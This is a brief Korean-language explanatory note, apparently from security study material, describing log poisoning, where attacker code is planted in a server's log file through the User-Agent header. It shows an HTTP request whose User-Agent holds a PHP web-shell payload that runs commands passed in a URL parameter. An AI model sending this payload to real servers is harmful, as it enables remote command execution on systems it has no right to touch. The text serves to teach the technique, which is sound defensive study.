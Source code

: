 # 개념
서버의 로그 파일에 악의적인 코드를 삽입하여 공격하는 기법

일반적으로 웹 애플리케이션은 사용자 에이전트(User-Agent) 정보를 로그 파일에 기록

	GET / HTTP/1.1
	User-Agent: aa<?php echo system($_GET['cmd']); ?>bb



